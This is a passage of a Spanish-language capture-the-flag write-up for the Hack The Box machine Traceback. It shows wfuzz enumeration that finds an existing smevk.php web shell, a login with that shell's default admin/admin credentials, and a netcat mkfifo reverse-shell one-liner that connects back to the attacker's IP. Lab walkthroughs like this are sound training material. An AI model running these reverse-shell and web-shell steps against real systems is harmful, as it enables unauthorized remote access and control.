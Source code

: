 ```console
intrusionz3r0@kali:~$ wfuzz -c --hc 404 -w dic.txt http://traceback.htb/FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://traceback.htb/FUZZ
Total requests: 30

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                             
===================================================================

000000027:   200        58 L     100 W    1261 Ch     "smevk.php"                                                                                         

Total time: 0.817690
Processed Requests: 30
Filtered Requests: 29
Requests/sec.: 36.68870
```
Encontramos `smevk.php`.

**![](https://lh3.googleusercontent.com/i9zR7oMDaEZeGveDHpgxefhfriSCSm8Dh4j75ThE9y_7FHTYgpN_3iTmUYghAHi8cqbPL9yXSxlzXHZuCpnHDTxRR61UaCgPlFhdrkNh2MX2bgoanhFARsZTT21-UnJo3PAcuwY7)**

Reviso el código de [smevk.php](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php) y encuentro las credenciales de acceso.

```
$UserName = "admin"; //Your UserName here.
$auth_pass = "admin"; //Your Password.
```

Rápidamente utilizo las credenciales para acceder a la webshell.

**![](https://lh5.googleusercontent.com/i50UVMTplYetCaVXNCtDgzvjMIyreh3Y9CdHzZSBSxzigFLCfHH6LdYw15cGUAz5CSJFSHpoIQ4DmA59iPoMpZrjrozczM07v3MncN3WENGdgUovB5S5wP7hS7p3brtBlO95yzOt)**

Hecho un vistazo y me percato de que es posible ejecutar comandos por lo que me lanzo una reverse shell utilizando netcat.

```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PUERTO] >/tmp/f
```

**![](https://lh5.googleusercontent.com/8CZ__2uAbRbZ7ByPO9Jl99uPzNNasTMiFceGYZtKIu1jEz-JDCQNiYC9cm_u_0Ls5DPHl8acuC7TvljxcwZS-Aely8cwYbSJG89QOReKfopYN33RS-H2ZrVO3S6vPek3nFXhkFxH)**

**![](https://lh3.googleusercontent.com/2m5uBVMaatCGJqTMeRloycGhGZjaqQeRiL7vqBgvBCeAE1uB74M92PLORdBcphIYsA3PE9wiZ4P8pd2urieO9E3FF9R53k05Eb7VKaUffhnNLHCm3D0G4VF7giaRfIURtvSR-EYx)**
